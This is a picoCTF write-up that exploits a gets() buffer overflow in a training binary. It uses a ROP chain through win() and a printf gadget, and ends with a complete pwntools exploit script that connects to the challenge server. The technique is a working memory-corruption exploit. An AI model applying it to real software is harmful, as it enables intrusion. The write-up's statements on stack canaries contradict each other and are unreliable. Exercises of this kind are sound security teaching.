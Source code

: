 # 🧨 picoCTF Writeup – stack cache (`vuln`)

## 🧾 Summary

We are given a statically compiled, **32-bit** ELF binary named `vuln`. The goal is to **leak the flag** by exploiting a `gets()`-based buffer overflow in the `vuln()` function.

We will build a **Return-Oriented Programming (ROP)** chain to:

1. Call `win()` to load the flag into a local buffer.
2. Call a `mov [esp+4], eax; call printf` gadget to print the flag.
3. Use a format string (`"%s"`) as a parameter to print the string pointed to by `eax`.

---

## 🧱 Understanding the Source Code

Here's the breakdown of the code sections:

### 🔸 `main()`

```c
int main(int argc, char **argv){
  setvbuf(stdout, NULL, _IONBF, 0);  // No buffering (immediate output)
  gid_t gid = getegid();             // Needed to keep correct privileges
  setresgid(gid, gid, gid);
  vuln();                            // Vulnerable function
  printf("Bye!");
  return 0;
}
```

This just sets up the environment and jumps to the vulnerable function `vuln()`.

---

### 🔸 `vuln()`

```c
void vuln(){
   char buf[INPSIZE]; // INPSIZE = 10
   printf("Give me a string that gets you the flag\n");
   gets(buf); // 🚨 Vulnerable: allows buffer overflow
   printf("%s\n",buf);
   return;
}
```

* The buffer is **10 bytes**.
* It uses `gets(buf)` — a **classic buffer overflow vulnerability**.
* There is **no stack canary** or PIE, making it ideal for ROP.

---

### 🔸 `win()`

```c
void win() {
  char buf[FLAGSIZE];       // 64-byte flag buffer
  char filler[BUFSIZE];     // unused
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Please create 'flag.txt' ...\n");
    exit(0);
  }
  fgets(buf,FLAGSIZE,f);    // 📌 flag is now in buf
}
```

* This function reads the flag into a **local variable** (`buf`) on the stack.
* It does **not print** the flag.
* But! It stores the **flag address in `eax`** when returning (due to stack layout).

---

## 🛠️ Exploitation Plan

We want to:

1. **Overflow the buffer** in `vuln()` to gain control of EIP.
2. Call `win()` → this reads the flag into a local buffer and returns with **`eax = flag_buf`**.
3. Use a gadget that does:
   `mov dword [esp+4], eax; call printf` → passes `eax` as argument to `printf`.
4. Pass address of `"%s"` string as second argument to `printf`.

---

## 🔍 Analyzing Binary with radare2

Let’s confirm the gadget and the string:

### 🔸 1. The Gadget

```r2
/ mov dword [esp+4], eax; call
```

Found:

```
0x08049edb   mov dword [esp+0x4], eax
             call sym.imp.printf
```

Perfect. This gadget will:

* Set up `eax` as the argument to `printf("%s", eax)`
* Then call `printf`.

### 🔸 2. The Format String `%s`

```r2
iz~%s
```

Found:

```
0x080b4011  ascii   %s
```

---

## 💣 Final ROP Chain

Let’s build the payload step-by-step.

### 📍 Buffer Offset

From trial or pattern-finding, offset to EIP = **14 bytes**

### 📍 Chain:

```python
payload = b"a" * 14 + flat(
    [
        elf.sym["win"],  # call win() → stores flag address in eax
        ret, ret, ret, ret, ret, ret, ret, ret,  # alignment to avoid stack corruption
        0x08049EDB,       # mov [esp+4], eax; call printf
        0x080b4011,       # address of "%s" format string
    ]
)
```

### 🧠 Why Add `ret` multiple times?

* Some functions or gadgets might assume the stack is aligned.
* In practice, multiple `ret` gadgets are used to pad the stack or avoid misalignment crashes.
* You can test without them, but sometimes they prevent weird segfaults.

---

## 🧪 Running the Exploit

### Local

```python
USE_REMOTE = False
```

```bash
python3 exploit.py
```

---

### Remote

```python
USE_REMOTE = True
REMOTE_HOST = "saturn.picoctf.net"
REMOTE_PORT = 64851
```

```bash
python3 exploit.py
```

### Output

You will get:

![result](./img/result.png)

---

## 🧑‍💻 Full Exploit Script

```python
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]
context.arch = "i386"

elf = ELF("./vuln")
rop = ROP(elf)
ret = rop.find_gadget(["ret"]).address

USE_REMOTE = True
REMOTE_HOST = "saturn.picoctf.net"
REMOTE_PORT = 64851

if USE_REMOTE:
    io = remote(REMOTE_HOST, REMOTE_PORT)
else:
    io = elf.process()

payload = b"a" * 14 + flat(
    [
        elf.sym["win"],      # sets eax = &flag_buf
        ret, ret, ret, ret, ret, ret, ret, ret,
        0x08049EDB,          # mov [esp+4], eax; call printf
        0x080b4011,          # address of "%s"
    ]
)

io.sendlineafter(b"the flag\n", payload)
io.interactive()
```

---

## ✅ Takeaways

* `gets()` + small buffer = buffer overflow
* ROP lets you chain execution from one function to another
* `win()` can help even if it doesn’t print the flag — just capture where it puts the flag (here, in `eax`)
* `mov [esp+4], eax; call printf` is a handy gadget to call printf with a value of our choosing

---


> [!NOTE]  
> Small buffers often won’t get stack canaries under default protections.
> But not always — it depends on compiler flags and buffer usage.
> This binary has canary enabled but we did not see any.
